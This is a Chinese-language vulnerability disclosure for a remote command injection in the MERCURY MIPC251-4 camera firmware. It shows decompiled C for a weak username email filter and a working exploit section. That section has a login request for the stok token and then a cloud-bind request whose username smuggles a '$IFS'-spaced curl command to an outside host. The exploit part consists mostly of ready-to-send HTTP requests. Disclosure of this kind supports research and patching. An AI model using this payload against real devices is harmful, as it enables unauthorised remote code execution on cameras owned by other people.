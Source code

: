 # MERCURY MIPC251-4 存在命令注入漏洞

**漏洞厂商**: MERCURY

**厂商官网**: https://www.mercurycom.com.cn/

**影响产品**: MIPC251-4

**影响产品版本**: V2.0(20200608)

**固件链接**: https://service.mercurycom.com.cn/download/202007/MIPC251-4%20V2.0%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620200608_2.0.21.zip

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

## 漏洞描述

水星 MIPC251-4 存在远程命令执行，远程攻击者可以通过精心构造的数据包绕过限制，实现远程命令执行。

## 漏洞详情

以邮箱名作为 username 的核心过滤规则，规则仅对邮箱格式进行一些过滤（具体看代码注释），并没有对特殊符号进行过滤，存在注入的机会。

> file:/usr/bin/dsd

```c
/* 期待返回值1 */

int FUN_00024aa4(byte *param_1)

{
  size_t sVar1;
  char *pcVar2;
  int iVar3;
  
                    /* 账号为空 */
  if (param_1 == (byte *)0x0) {
    return 0;
  }
                    /* 长度为0 */
  sVar1 = strlen((char *)param_1);
  if (sVar1 == 0) {
    return 0;
  }
                    /* 限制长度<129 */
  if ((int)sVar1 < 129) {
                    /* 匹配出@ */
    pcVar2 = strchr((char *)param_1,L'@');
                    /* 没有匹配项 */
    if (pcVar2 == (char *)0x0) {
      return 0;
    }
                    /* 是否以@结尾 */
    if (param_1[sVar1 - 1] != 0x40) {
                    /* 是否以@开头 */
      iVar3 = *param_1 - 0x40;
      if (iVar3 != 0) {
        iVar3 = 1;
      }
      return iVar3;
    }
  }
  return 0;
}
```

## EXP

1. 登录后台获取 stok

    ```
    POST / HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 73
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"method":"do","login":{"username":"{your_name}","password":"{your_password}"}}
    ```

2. 发送云账号登录包，触发远程命令执行

    > 根据实际情况替换
    >
    > Stok:05173d0162e8c77387fa1bbc12b2fa62
    >
    > Command:`curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231'`
    
    ```
    POST /stok=05173d0162e8c77387fa1bbc12b2fa62/ds HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 147
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"cloud_config":{"bind":{"username":"\"}';curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231';'{\"@mrskye.com","password":"admin123"}},"method":"do"}
    ```
    
    


